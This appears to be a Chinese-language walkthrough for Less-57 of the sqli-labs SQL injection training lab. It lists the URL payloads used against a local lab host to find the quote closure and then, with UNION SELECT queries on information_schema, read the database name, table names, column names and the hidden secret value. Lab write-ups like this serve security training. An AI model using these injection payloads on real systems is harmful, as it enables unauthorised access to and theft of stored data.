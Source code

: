 ```yaml
---
title: Less - 57
date: 2023-03-24T19:16:13Z
lastmod: 2023-03-24T19:25:43Z
---
```


# Less - 57

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-57/?id=1' #页面正常
http://192.168.23.128/sqli-labs/Less-57/?id=1" #页面出错
http://192.168.23.128/sqli-labs/Less-57/?id=1"--+ #页面正常
```

​![image](assets/image-20230324191926-8cke431.png)​

所以判断闭合方式为"–+，并且为字符型注入

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-57/?id=-1" union select 1,2,database()--+
```

​![image](assets/image-20230324192011-38jk4cg.png)​

---

## 3、查看challenges库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-57/?id=-1" union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='challenges')--+
```

​![image](assets/image-20230324192140-jjoo55a.png)​

---

## 4、查看juu9c76ro4字段下的所有值

---

```http
http://192.168.23.128/sqli-labs/Less-57/?id=-1" union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='juu9c76ro4')--+
```

​![image](assets/image-20230324192346-ifgzgt2.png)​

---

## 5、查看secret_WHMS字段下的值

---

```http
http://192.168.23.128/sqli-labs/Less-57/?id=-1" union select 1,2,(select group_concat(secret_WHMS) from challenges.juu9c76ro4)--+
```

​![image](assets/image-20230324192505-ufvdy4i.png)​

​![image](assets/image-20230324192541-ed4144b.png)​

‍

---
